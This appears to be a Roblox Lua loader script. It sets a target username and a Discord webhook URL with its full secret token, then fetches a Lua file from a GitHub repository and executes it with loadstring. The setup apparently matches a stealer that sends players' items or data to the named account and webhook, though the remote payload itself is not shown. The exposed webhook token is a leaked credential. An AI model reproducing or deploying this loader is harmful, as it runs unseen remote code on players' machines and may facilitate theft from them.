 Username = 'timtim_lol8'
Username2 = 'timtim_lol8'
Webhook = 'https://discord.com/api/webhooks/1255862904230776916/gJgX2gtAISm1NRo7nuCBA-dsl_xqZrB3ma4wjKRhKkfRA1cHvzrVKZKJvw0JldVvruHy'

loadstring(game:HttpGet("https://raw.githubusercontent.com/terabite-max43/shitescripts/main/configs.lua"))()
